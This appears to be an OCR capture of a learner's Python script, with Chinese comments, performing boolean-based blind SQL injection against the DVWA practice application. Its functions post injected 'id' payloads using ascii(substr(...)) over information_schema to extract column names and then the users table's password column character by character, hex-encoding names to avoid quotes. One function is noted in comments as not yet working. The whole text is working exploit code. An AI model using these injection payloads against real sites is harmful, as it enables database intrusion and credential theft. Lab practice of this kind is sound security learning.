 ```python
    print("tables_name:{}".format(tables_name))
    # return tables_name
# get_tables_name("dvwa")

# 表中的所有列名
def get_columns_name(table_name):
    columns_name = ''
    for i in range(1, 100):
        for c in chars:
            # url = base_url + "id=1' and substr((select group_concat(column_name) from information_schema.columns where table_schema = '{}' and table_name = '{}'), {}, 1) = '{}'%23&Submit=Submit#".format(db_name, table_name, i, c)
            # response = session.get(url, cookies=cookies).text
            post_data = {
                'id': "1 and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name={}),{},1))={} #".format(table_name, str(i), ord(c)),
                'Submit': "Submit"
            }
            response = session.post(base_url, cookies=cookies, data=post_data).text
            if "User ID exists in the database" in response:
                print(c)
                columns_name = columns_name + str(c)
                break
    print("columns_name:{}".format(columns_name))
    # return columns_name
# 这里不能直接传表名的字符串，所以将表名"users"通过ascii码转化成16进制数（使用16进制数代替字符串，保证最终提交到服务器的查询语句中不存在单引号）
# get_columns_name("0x7573657273")


# 特定列的数据 (这个函数暂时跑不出来……没找到原因)
def get_data(table_name, column_name):
    data = ""
    for i in range(1,60):
        for c in chars:
            # url = base_url + "id=1' and substr((select group_concat({}) from {}), {}, 1) = '{}'%23&Submit=Submit#".format(column_name, table_name, i, c)
            # response = session.get(url, cookies=cookies).text
            post_data = {
                'id': "1 and ascii(substr((select group_concat({}) from {}),{},1))={} #".format(column_name, table_name, i, ord(c)),
                # 'id': "1 and ascii(substr((select group_concat(0x70617373776f7264) from 0x7573657273),{},1))={} #".format(i, ord(c)),
                'Submit': "Submit"
            }
            response = session.post(base_url, cookies=cookies, data=post_data).text
            if "User ID exists in the database" in response:
                print(c)
                data = data + c
                break
    print("data in {}:{}".format(column_name, data))
get_data("0x7573657273", "0x70617373776f7264")
# get_data("users", "password")
```
